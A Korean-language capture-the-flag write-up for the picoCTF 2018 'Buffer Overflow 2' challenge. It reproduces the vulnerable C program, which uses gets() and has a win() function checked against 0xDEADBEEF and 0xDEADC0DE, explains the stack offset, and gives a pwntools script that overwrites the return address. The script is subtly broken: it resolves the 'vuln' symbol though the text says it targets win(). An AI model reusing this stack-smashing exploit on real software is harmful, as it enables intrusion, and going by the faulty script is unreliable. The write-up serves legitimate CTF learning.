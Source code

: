 # picoCTF 2018

<h5> Buffer OverFlow 2 </h5>
<hr>

<h5> Solution </h5>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

<p> 이전의 bof1 문제를 풀 때와 동일한 방식으로 풀이하는 문제이다. <br>
그렇지만 win 함수로 넘겨줬을때 arg1, arg2 에 각각 0xDEADBEEF, 0xDEADC0DE 값이 있는지 조건문 검사를 하게 된다. </p>

<p> 바이너리에서 요구하는 조건문을 맞춰주면서 페이로드를 구성하면 된다. </p>
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fk.kakaocdn.net%2Fdn%2Fssm8s%2FbtqxRvBHylk%2FoNU4MMw2v40Lc1umfglGzk%2Fimg.png"><br>

<p> 메모리에 우리가 입력하는 값은 lea, eax[ebp-0x6c] 공간에 위치한다. </p>
<p> 0x6c = 108Byte + SFP(4) + RET(win) 으로 페이로드를 맞춰주고, <br>
조건문에서 요구하는 arg1, arg2 주소를 써주면 된다. </p>

```py
#!/usr/bin/python

from pwn import *

p = process('./vuln')
e = ELF('./vuln')

context.log_level = 'debug'

win = e.symbols['vuln']

code1 = 0xDEADBEEF
code2= 0XDEADC0DE

payload = "A"*112

payload += p32(win)

payload += "A"*4

payload += p32(code1)

payload += p32(code2)

p.sendline(payload)

print p.recv()

p.close()
```